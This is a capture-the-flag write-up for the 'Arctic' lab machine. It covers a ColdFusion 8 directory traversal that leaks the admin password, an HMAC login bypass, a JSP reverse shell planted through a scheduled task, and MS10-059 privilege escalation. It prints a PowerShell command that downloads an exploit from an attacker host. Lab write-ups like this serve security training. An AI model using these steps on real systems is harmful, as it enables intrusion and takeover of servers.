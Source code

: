 # Arctic

### Machine Info
![](screenshots/machine_info.png)

#### Nmap:
![](screenshots/nmap.png)


##### FMTP(Flight Message Transfer Protocol):
I searched for `FMTP` service but couldn't get information about exploits or vulnerability. After that I just accessed to port 8500 via web browser and got some directories.
![](screenshots/index.png)

I traversed the directory `CFIDE` and found `ColdFusion 8 Administrator` page.
![](screenshots/cf_index.png)

Searchsploit to check if it has vulnerability or not:
![](screenshots/searchsploit.png)

As we can see from the result, some `Adobe Cold Fusion` applications has vulnerability.

Let's check the `Directory Traversal` vulnerability. From the exploit `14641.py`, I checked that it is possible to disclose the password of admin.
![](screenshots/14641.png)

Access to above web address and I got the password:
![](screenshots/admin_password.png)

First I just tried to login with password `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` but failed to login. I checked the source code and password changed due to salt.

From the below link, I found how to encrypt/decrypt my input data.</br>
[]()https://nets.ec/Coldfusion_hacking

I have to tamper the data so I used `burpsuite` to tamper the password.

![](screenshots/burpsuite.png)

From the `burp`, I grabbed the salt and decrypt admin password.

```
❯ python -c 'import hashlib,hmac; hash=raw_input("Hash > "); salt=raw_input("Salt > "); print "HMAC",hmac.new(salt,hash,hashlib.sha1).hexdigest().upper()'
Hash > 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Salt > 1582205396581
HMAC 910ABAC2C86EC3F29640039C95DB100CD10307F6
```

After decrypt my admin password, I replaced `cfadminPassword` parameter with decrypted `HMAC 910ABAC2C86EC3F29640039C95DB100CD10307F6` and logged in to admin page.
![](screenshots/adminpage.png)


I checked every menu and found two good pages `mapping` and `scheduled task`.

Mapping:
![](screenshots/mapping.png)

Scheduled Task:
![](screenshots/schedule_task.png)



##### Exploit:

From the scheduled task page, I can deploy my malicious reverse shell code to the server and eventually I can get the reverse shell.

Generate Shellcode:
![](screenshots/jsp.png)

Create new task:
![](screenshots/new_task.png)


Run python `SimpleHTTPServer`:
```
❯ python -m SimpleHTTPServer 8080        
Serving HTTP on 0.0.0.0 port 8080 ...
```

![](screenshots/run.png)

Now we can check our `shell.jsp` from `CFIDE` directory and access to `shell.jsp`.
![](screenshots/cfide.png)

`nc` listener on attacking side:
![](screenshots/lowshell.png)



#### Privilege Escalation

By using the `Windows-Exploit-Suggester`, I found that system has `MS10-059` vulnerability.
![](screenshots/wes.png)

I got compiled version of `MS10-059` exploit from below address.</br>
[]()https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

From windows victim machine:
```
@powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.37:8080/Chimichurri.exe', 'C:\Users\tolis\Desktop\Chimichurri.exe')
```

##### Exploit
Execute exploit:
![](screenshots/pe.png)

`nc` listener on attacking machine:
![](screenshots/penc.png)

And you can get `root.txt` :)
